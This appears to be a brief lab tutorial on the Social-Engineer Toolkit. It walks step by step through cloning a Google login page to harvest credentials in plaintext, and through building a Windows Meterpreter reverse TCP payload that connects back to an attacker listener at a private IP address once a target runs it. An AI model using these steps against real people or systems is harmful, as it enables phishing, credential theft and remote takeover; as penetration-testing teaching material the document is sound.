

Show some examples about how to use SET to do some testing

## Start Social-Engineer Toolkit(SET)

## Example:Phishing for get username/password for the Website login

Follow the steps

- 1. Social-Engineering Attacks

- 2. Website Attack Vectors

- 3. Credential Harvester Attack Method

- 4. Web Templates

- 5. Google

- 6. Then open the link, and input username/password, you can see the plaintext username/password in the console

## Example2: Control the remote machine with payload attack

- Social-Engineering Attacks

- Create a Payload and Listener

- Windows Meterpreter Reverse_TCP X64 Connect back to the attacker (Windows x64), Meterpreter

- IP address for the payload listener (LHOST):192.168.193.130

- Enter the PORT for the reverse listener:80

- Share the file to the target machine "/root/.set/payload.exe", and execute it

- Then boom, it will connect your machine, and you can control the target machine.

- [*] Started reverse TCP handler on 192.168.193.130:80

- msf6 exploit(multi/handler) >